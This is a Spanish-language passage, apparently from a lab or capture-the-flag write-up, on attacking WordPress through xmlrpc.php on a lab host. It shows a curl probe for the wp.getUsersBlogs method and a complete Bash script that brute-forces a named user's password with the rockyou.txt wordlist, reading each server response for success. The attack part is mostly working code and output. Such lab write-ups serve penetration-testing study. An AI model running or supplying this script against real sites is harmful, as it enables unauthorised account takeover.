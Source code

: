 Le enviamos con `curl` una petición por Post con la data que contiene el archivo.xml para ver si contiene el método `getUsersBlogs` que nos indicaría que es vulnerable a ataques de fuerza bruta en el loggin [explotando el archivo xmlrpc.php](https://nitesculucian.github.io/2019/07/02/exploiting-the-xmlrpc-php-on-all-wordpress-versions/).

- `-k` (o `--insecure`) especifica que no verifique el certificado SSL del servidor. Esto es útil cuando te conectas a servidores con certificados autofirmados o expirados.


```shell
curl -k -s -X POST "https://10.10.0.9:12380/blogblog/xmlrpc.php" -d@file.xml | grep wp.getUsersBlogs
```
```output
-- output --

<value><string>wp.getUsersBlogs</string></value>
```
<br>

Creamos un script básico en Bash que irá mandando una petición por cada palabra del diccionario, en este caso `rockyou.txt` , tan solo tendremos que especificar en la variable `user` el nombre de usuario al que queremos aplicar fuerza bruta.

```shell
#!/bin/bash

function ctrl_c(){
    echo -e "\n\n[!] Forzando salida del script..."
    exit 1
}

#Ctrl+c
trap ctrl_c SIGINT

function crearXML(){
    password=$1
    user=<Nombre_Usuario>
    xmlFile="""
<?xml version=\"1.0\" encoding=\"UTF-8\"?>
<methodCall>
<methodName>wp.getUsersBlogs</methodName>
<params>
<param><value>$user</value></param>
<param><value>$password</value></param>
</params>
</methodCall>"""

    echo $xmlFile > file.xml

    response=$(curl -k -s -X POST "https://10.10.0.9:12380/blogblog/xmlrpc.php" -d@file.xml)

    if [ ! "$(echo $response | grep 'Incorrect username or password.')" ]; then
        echo -e "\n[+] La contraseña de $user es $password"
        exit 0
    fi

}

cat /usr/share/wordlists/rockyou.txt | while read password; do
    crearXML $password
    echo "Probando contraseña : "$password

done
```
